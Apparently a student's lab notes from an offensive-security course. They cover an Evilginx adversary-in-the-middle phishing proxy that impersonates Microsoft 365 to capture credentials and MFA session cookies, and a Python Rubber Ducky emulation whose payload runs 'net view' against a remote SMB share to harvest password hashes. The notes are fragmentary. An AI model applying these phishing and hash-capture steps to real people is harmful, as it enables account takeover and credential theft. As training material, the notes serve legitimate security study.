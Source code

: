 ## MFA Bypass


When we signed in to DVWA , we proved we logged in 


We have a victim to be enticed to --> visit a proxy --> he used M365 --> it goes through the proxy to M365 , buy a domain , set up SSL certificates. It will look like M365, they log in , the attacker gets the username/password, it will ask them for MFA, and the response is a session token. Once we have the session token, we get a cookie-editor for Firefox to edit it/view it. 



Methodology : 

1. Install Go : 
   
   sudo apt install golang-go 

2. Clone Evilginx :




Place the 0365.yaml file in the Phislets folder

([An0nUD4Y/Evilginx2-Phishlets: Evilginx3 Phishlets version (0.2.3 & above) Only For Testing/Learning Purposes (github.com)](https://github.com/An0nUD4Y/Evilginx2-Phishlets))

The Kali Linux vm will be our Proxy Server. 



The cookie editor will be on Firefox too


This exercise will help a ton in our assignment


The host file should be changed to adapt to the victim. The pc when trying to reach a website checks the host file first before the DNS. 

Subdomain in the host file does nto have to be a login. Adapt it in style to the intended destination ( for the victim )



## Exercise - Rubber  Ducky Emulation

Why emulation  

● Rubber duckys are expensive  
● We can use python instead

Results

	whoami 
	desktop-user\beard
	PS C:\Users\beard
	
Getting Hashes  

>[!command]
	# Payloads
>	 shell = "powershell.exe"
>	 payload = "net view \\\\192.168.42.82\\temp"
